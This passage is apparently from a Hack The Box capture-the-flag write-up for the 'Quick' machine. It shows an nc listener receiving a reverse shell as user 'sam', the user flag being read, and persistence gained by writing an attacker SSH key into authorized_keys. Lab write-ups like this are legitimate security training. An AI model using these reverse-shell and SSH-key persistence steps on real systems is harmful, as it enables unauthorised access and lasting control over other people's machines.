 Triggered stage 2 of the exploit, we should get a reverse-shell now.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.186.
Ncat: Connection from 10.10.10.186:55764.
bash: cannot set terminal process group (1146): Inappropriate ioctl for device
bash: no job control in this shell
sam@quick:~$
```

Get get the reverse-shell as the user `sam` and can now read user.txt.

```bash
sam@quick:~$ cat user.txt
2e539***************************
```

## Upgrading the shell

Let us upgrade our shell by adding our ssh-key to the authorized_keys file.

```bash
root@darkness:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): sam.key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in sam.key.
Your public key has been saved in sam.key.pub.
The key fingerprint is:
SHA256:AOM4pQdM0k1jdl7zwjlP58rAXEy5sCMkUl8PGgZrPVc root@darkness
The key's randomart image is:
+---[RSA 3072]----+
|.+o+@.+ = E.     |
| .+Oo@.*.X.      |
|  +.=oB *o*..    |
|   +  .*o*.o     |
|       .S.. .    |
|         o .     |
|          o      |
|                 |
|                 |
+----[SHA256]-----+
```
```bash
sam@quick:~$ echo "ssh-rsa AAAA[...]dy8=" > .ssh/authorized_keys
```
```bash
root@darkness:~# ssh sam@quick.htb -i sam.key
The authenticity of host 'quick.htb (10.10.10.186)' cant be established.
ECDSA key fingerprint is SHA256:kEX5biAHQdV0la1P6VUH52+0TprzbPr+r0UfSni9aRk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'quick.htb,10.10.10.186' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

sam@quick:~$
```
